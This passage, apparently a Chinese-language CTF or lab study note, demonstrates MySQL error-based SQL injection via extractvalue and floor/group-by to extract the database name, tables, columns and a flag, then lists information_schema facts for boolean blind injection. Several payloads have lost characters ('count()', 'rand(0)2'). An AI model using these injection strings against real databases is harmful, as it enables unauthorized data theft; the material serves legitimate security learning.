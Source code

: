 ![image-20220609094204065](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094204065.png)

#### 方法二：extractvalue

**利用updatexml来xpath报错。**

1 and (select extractvalue(1, concat(0x7e, (select database()))))

![image-20220609094434010](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094434010.png)

1 and (select extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema= 'sqli'))))

![image-20220609094525541](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094525541.png)

1 and (select extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name= 'flag'))))

![image-20220609094655426](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094655426.png)

1 and (select extractvalue(1, concat(0x7e, (select flag from flag))))

![image-20220609094729901](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094729901.png)

#### 方法三：floor

**利用floor来group by主键重复报错。**

1 union select count(), concat((select database()), floor(rand(0)2)) x from news group by x

![image-20220609094922299](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094922299.png)

1 union select count(), concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1), floor(rand(0)2)) x from news group by x

![image-20220609095259368](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095259368.png)

1 union select count(), concat((select column_name from information_schema.columns where table_name='flag' limit 0,1), floor(rand(0)2)) x from news group by x

![image-20220609095554150](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095554150.png)

1 union select count(), concat((select flag from flag limit 0,1), floor(rand(0)2)) x from news group by x

![image-20220609095627111](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095627111.png)



### **布尔盲注

需要了解mysql的知识点：

union select 联合查询，联合注入常用
database() 回显当前连接的数据库
version() 查看当前sql的版本如：mysql 1.2.3， mariadb-4.5.6
group_concat() 把产生的同一分组中的值用,连接，形成一个字符串
information_schema 存了很多mysql信息的数据库
information_schema.schemata information_schema库的一个表,名为schemata
schema_name schemata表中存储mysql所有数据库名字的字段
information_schema.tables 存了mysql所有的表
table_schema tables表中存每个表对应的数据库名的字段
table_name 表的名字和table_schema一一对应
information_schema.columns columns表存了所有的列的信息4
column_name 当你知道一个表的名字时，可通过次字段获得表中的所有字段名(列名)
table_name 表的名字和column_name一一对应
select updatexml(1,concat(0x7e,database(),0x7e),1); 这里注意，只在databse()处改你想要的内容即可报错回显
right(str, num) 字符串从右开始截取num个字符